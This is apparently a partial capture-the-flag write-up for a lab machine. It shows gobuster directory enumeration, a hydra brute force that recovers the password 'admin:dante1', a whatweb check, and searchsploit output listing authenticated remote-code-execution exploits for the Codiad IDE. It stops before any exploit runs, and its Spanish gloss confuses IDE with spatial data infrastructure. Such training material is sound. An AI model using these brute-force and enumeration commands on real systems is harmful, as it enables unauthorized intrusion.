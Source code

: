 ```
gobuster dir -u http://172.16.2.186 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20
```
we have two possible routes 
```
/inferno              (Status: 401) [Size: 459]
/server-status        (Status: 403) [Size: 277]
```

so now savitar want to do a bruteforce attack with an hypotetical "admin" user. Using hydra

```
hydra -l admin -P /home/cds/Documents/Workspace/pentesting/moneybox/rockyou.txt 172.16.2.186 http-get /inferno -t 60
```

we have credentials 
```
[80][http-get] host: 172.16.2.186   login: admin   password: dante1
```

another web login we are going to watch it with 
we can authenticate at the start of the url as you can see
```
whatweb http://admin:dante1@172.16.2.186/inferno
```
But no... it doesnt work

```
[401 Unauthorized] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[172.16.2.186], Title[401 Unauthorized], WWW-Authenticate[Restricted Content][Basic]
```

fortunately our credentials worked when we tried to authenticate on the other login website.

This site is working on "codiad"

```
Codiad **es un IDE sencillo, basado en web, que se puede poner en marcha en un servidor para editar archivos del sistema y evita la carga de algunos editores de escritorio**

 **Infraestructura de Datos Espaciales** (IDE)
```


searchsploit gives us this  exploits

```
searchsploit codiad
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                       | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                           | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                          | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                      | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                      | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                      | multiple/webapps/50474.txt
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
